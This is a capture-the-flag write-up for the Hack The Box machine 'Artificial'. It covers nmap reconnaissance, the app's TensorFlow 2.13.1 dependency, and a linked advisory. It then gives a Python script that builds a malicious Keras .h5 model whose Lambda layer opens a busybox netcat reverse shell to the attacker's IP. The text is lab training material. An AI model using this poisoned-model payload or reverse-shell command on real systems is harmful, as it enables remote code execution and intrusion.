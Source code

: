 starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

```cmd 
sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts 
```

simple looking ui 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">
registering a new account and logging in with it 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">
this will lead us to the page where it present us with this .. 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">
checking the `requirement.txt` and `Dockerfile` 

Dockerfile 
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

requirements.txt 
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

https://github.com/advisories/GHSA-x4wf-678h-2pmq

looking for POC to recreate the exploit 

https://mastersplinter.work/research/tensorflow-rce/

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```python3 
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">
and finally importing our model will give us a shell 



